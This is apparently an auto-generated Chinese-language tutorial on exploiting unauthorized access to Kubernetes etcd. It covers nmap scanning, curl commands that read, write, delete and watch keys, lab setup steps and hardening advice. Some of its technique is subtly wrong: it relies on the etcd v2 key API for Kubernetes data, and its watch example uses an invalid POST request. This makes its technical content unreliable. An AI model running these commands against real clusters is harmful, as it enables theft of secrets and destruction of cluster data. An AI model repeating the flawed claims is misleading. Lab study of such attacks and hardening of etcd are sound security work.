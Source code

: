 # K8s etcd未授权访问的攻击技术文档

## 1. 引言
Kubernetes（K8s）是一个广泛使用的容器编排平台，其核心组件之一是etcd。etcd是一个高可用的键值存储系统，主要用于存储K8s的配置信息和状态数据。由于etcd的敏感性和重要性，未授权访问等安全漏洞可能导致严重的安全事件。本文将详细探讨K8s etcd未授权访问的攻击技术，分析其原理、变种、攻击步骤以及实验环境搭建。

## 2. K8s etcd的工作原理
etcd是基于Raft共识算法构建的分布式键值存储系统，主要用于保存集群的配置数据。etcd的关键特性包括：
- **数据存储**：以键值对的形式存储数据。
- **强一致性**：通过Raft算法确保数据在分布式环境中的一致性。
- **高可用性**：支持故障转移和数据备份。

在K8s中，所有的资源对象（如Pod、Service、ConfigMap等）都存储在etcd中。因此，获取对etcd的未授权访问意味着攻击者可以查看、修改或删除K8s集群中的任何资源。

## 3. 未授权访问的攻击手法

### 3.1 攻击原理
未授权访问通常发生在以下几种情况下：
- **缺乏安全配置**：etcd未启用身份验证或授权配置。
- **网络暴露**：etcd端口（默认2379）暴露在公共网络上。
- **使用默认凭据**：某些环境中可能使用默认的或弱口令。

### 3.2 攻击手法
#### 3.2.1 信息收集
攻击者可以使用nmap等工具扫描etcd服务，识别其开放端口并确认服务的可用性。

```bash
nmap -p 2379 <etcd-server-ip>
```

#### 3.2.2 未授权访问
在确认etcd服务可用后，攻击者可以直接通过curl或etcdctl等工具进行未授权访问。

```bash
# 使用curl访问etcd
curl http://<etcd-server-ip>:2379/v2/keys
```

如果etcd未启用身份验证，攻击者将能够列出所有存储的键值。

#### 3.2.3 数据操作
攻击者可以利用未授权访问进行数据操作，包括读取、写入和删除数据。

```bash
# 读取某个键
curl http://<etcd-server-ip>:2379/v2/keys/<key>

# 写入新键值
curl -X PUT http://<etcd-server-ip>:2379/v2/keys/<key> -d value=<value>

# 删除某个键
curl -X DELETE http://<etcd-server-ip>:2379/v2/keys/<key>
```

### 3.3 高级利用技巧
#### 3.3.1 利用etcd的watch功能
etcd的watch功能允许客户端监视某个键的变化，攻击者可以利用这一点获取动态信息。

```bash
curl -X POST http://<etcd-server-ip>:2379/v2/keys/<key>?wait=true
```

#### 3.3.2 利用etcd存储的敏感信息
许多K8s用户可能将敏感数据（如密码、令牌）存储在etcd中。攻击者可以通过未授权访问提取这些信息。

### 3.4 变种攻击
- **暴力破解**：攻击者可能通过暴力破解等方式尝试获取etcd的访问凭据。
- **中间人攻击（MITM）**：如果etcd未启用TLS，攻击者可以通过网络拦截数据流量，窃取敏感信息。

## 4. 攻击步骤和实验环境搭建指南

### 4.1 环境搭建
1. **准备K8s集群**：
   - 使用Minikube或Kubeadm搭建一个简易的K8s集群。
   
2. **安装etcd**：
   - 可以在K8s集群外部安装etcd，或直接在K8s集群中运行etcd。

3. **配置etcd**：
   - 不配置安全选项，确保etcd未启用身份验证。

### 4.2 攻击步骤
1. **扫描etcd服务**：
   - 使用nmap扫描可用的etcd服务。

2. **进行未授权访问**：
   - 使用curl测试未授权访问。

3. **执行数据操作**：
   - 尝试读取、写入和删除数据，以验证访问权限。

4. **监视敏感信息**：
   - 使用watch功能监视重要键的变化。

### 4.3 实战练习
以下是一些实战练习的命令示例：

```bash
# 1. 扫描etcd服务
nmap -p 2379 <etcd-server-ip>

# 2. 读取所有键
curl http://<etcd-server-ip>:2379/v2/keys

# 3. 写入新键
curl -X PUT http://<etcd-server-ip>:2379/v2/keys/test-key -d value=test-value

# 4. 读取新键
curl http://<etcd-server-ip>:2379/v2/keys/test-key

# 5. 删除键
curl -X DELETE http://<etcd-server-ip>:2379/v2/keys/test-key
```

## 5. 安全防护建议
- **启用身份验证**：确保etcd启用身份验证和授权。
- **使用TLS加密**：通过TLS加密etcd通信，防止中间人攻击。
- **限制网络访问**：仅允许受信任的IP地址访问etcd服务。
- **定期审计**：定期审计etcd的访问日志，及时发现异常活动。

## 6. 结论
K8s etcd未授权访问的攻击手法多样，攻击者可以通过多种方式获取敏感信息和控制权限。因此，确保etcd的安全配置是保护K8s集群的重要环节。通过正确的安全措施和定期审计，可以有效减少未授权访问的风险。

## 参考文献
- Kubernetes 官方文档
- etcd 官方文档
- OWASP Kubernetes 安全最佳实践

---

以上为K8s etcd未授权访问的攻击技术文档，详细讨论了其攻击原理、手法、实战演练等内容，确保读者能够深入理解并实施相关实验。

---

*文档生成时间: 2025-03-13 22:20:49*
